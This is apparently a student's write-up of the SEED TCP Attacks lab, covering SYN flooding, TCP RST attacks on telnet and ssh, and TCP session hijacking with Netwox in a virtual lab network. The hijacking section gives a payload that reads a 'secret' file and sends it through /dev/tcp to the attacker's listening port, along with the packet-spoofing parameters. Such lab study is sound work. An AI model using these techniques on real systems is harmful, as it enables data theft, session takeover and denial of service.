[Lab Instructions](https://seedsecuritylabs.org/Labs_16.04/PDF/TCP_Attacks.pdf)

## Network Setup

For this lab, a network between virtual machines have been made.

Copy and make 2 more Virtual Machines of `SeedUbuntu`. All machines have the network setting Attached to Bridged Adapter with different MAC Address and set as promiscuous mode.



Use the `ifconfig` command and check the `enp0s3 inet addr` to check the IP address of each VM.



This is how the network is set.



## Task 1: SYN Flooding Attack

The objective of this task is to perform a SYN Flooding Attack using `Netwox`.

Check that a telnet connection between the server and client is possible in a normal environment.



If we check the TCP SYN cookies parameter of the client machine, we can see that it is set as 1. Try changing this to 0.



Generate a TCP SYN Flooding attack from the attacker using the `netwox` . If we check the network connections in the client, we can see the client is receiving multiple `SYN_RECV` tcp packets from different sources.



If the server tries a telnet connection to the client, it fails because of to the TCP SYN Flooding attack.

If we change the TCP SYN cookie parameter of the client to 1 and try the same process again, the server can establish a telnet connection with the client.







The difference is because SYN Cookies are used to prevent SYN Flooding attacks. If SYN Cookies are used, a hash `H` of the received packet is sent back to the source of the packet as the initial sequence number. If the source is not an attacker, it sends `H+1` in the acknowledgement field back. This is used to check packets if they are from an attacker or not, and whether to fill the TCB queue or not.

## Task 2: TCP RST Attacks on telnet and ssh Connections

TCP Reset attack is an attack that can terminate an established TCP connection between two victims by spoofing a RST packet to the victims. The objective of this task is to perform a TCP RST Attack using `Netwox`.

### Attack on telnet Connection

First, set a telnet connection between the server and the client.



Perform a TCP Reset Attack using `Netwox` and check that the connection between the server and client has ended. The filter parameter is used to choose the IP address and port to send the RST packet.



If the server tries to connect with the client again, it is impossible.



### Attack on ssh Connections

By using the same `Netwox` command, ssh Connections can also be terminated.

This time, the attack is filtered `dst port 22` because ssh Connections use port #22.



## Task 3: TCP Session Hijacking

The objective of this task is to hijack an existing TCP connection (session) between two victims by injecting malicious contents into this session.

First, set a telnet connection between the server and the client.



To verify that the hijacking has succeeded, we will make a file "Secret". Capture the Telnet Connection while making the file using Wireshark.



Open port 9090 of the attacker to get the data, and open a new terminal in the attacker machine to prepare the attack.

`netwox -40` has a variety of parameters. Use the `Sudo netwox 40 --help` command to check each parameter. For the task, we will use the following parameters.

```
-l : ip4-src ip
-m : ip4-dst ip
-o : tcp-src port
-p : tcp-dst port
-q : tcp-seqnum uint32
-E : tcp-window uint32
-r : tcp-acknum uint32
-z : no-tcp-ack
-H : tcp-data
```

Parameters can be found from the final captured packet in Wireshark.

For the data, the hex value of `'\r cat /home/seed/secret > /dev/tcp/192.168.35.135/9090\r'`

will be used. this can be calculated easily by python.



Using the found parameters, use `Netwox` command to perform hijacking.

We can see the structure of the packet and the message "secret" saved in the secret file sent through telnet connection.


